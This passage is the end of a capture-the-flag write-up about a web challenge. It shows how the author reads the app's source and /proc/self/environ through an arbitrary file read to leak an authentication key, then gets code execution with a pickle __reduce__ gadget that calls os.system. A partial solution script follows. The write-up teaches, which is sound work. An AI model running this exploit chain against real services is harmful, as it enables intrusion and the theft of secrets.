 ```
AUTH_KEY=good_work_but_need_a_shell
```

Well, this suggests we need to execute code instead of just reading the flag
from the file.

At this point, we can use the `AUTH_KEY` and the code in `pack_key` to try to
construct our own valid key.  Initially, I just set up a key and iv of my own
choosing to avoid the same "Invalid MAC" error.  Just plugging in the `AUTH_KEY`
value and `key` and `iv` of my choice to `pack_key` worked fine.  But all this
allows is choosing my own encryption key -- not super useful at this point.

If you recall, there was a bit of a warning regarding the use of `pickle` and
the ability to execute arbitrary code during pickling.  A Python class to
execute a shell command is as simple as this:

```python
class Exp:

    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return os.system, (self.cmd, )
```

While I could send a reverse shell, I decided to use this to build a script
that would just return output via output redirection to a file, then using the
arbitrary file read.  Listing `/home/flag`, we see that `flag.txt` is only
readable by the `flag` user, but there's also a program called `getflag` that is
`setuid()` to the user `flag`.

```
-r-------- 1 flag ctf       22 Feb 27 23:14 flag.txt
-r-s--x--- 1 flag ctf  2061426 Feb 27 23:14 getflag
```

By altering our exploit to run `/home/flag/getflag` and getting the output,
we're able to get the contents of the flag file.  Putting it all together gives
the following solution script.  Hope you found this challenge interesting or
educational!

```python
import pickle
import requests
import sys
from Crypto.Cipher import AES
import os.path
import base64
import hmac
import hashlib


def main(target):
    src_path = get_source_path(target)
    print('Source path:', src_path)
    usable_key = get_key_data(target)
    key, iv = extract_key_nonce(usable_key)
    file_src = retrieve_path(target, src_path, usable_key)
    print(file_src.decode('utf-8'))
    config_src = retrieve_path(
            target, src_path.replace('main.py', 'config.py'), usable_key)
    print(config_src.decode('utf-8'))
    environ_src = retrieve_path(
            target, '/proc/self/environ', usable_key)
    auth_key = extract_auth_key(environ_src)
    print('Auth Key: "%s"' % auth_key.decode('utf-8'))
    exploit = build_exploit(auth_key, 'ls -al /home/flag > /tmp/matirflag')
```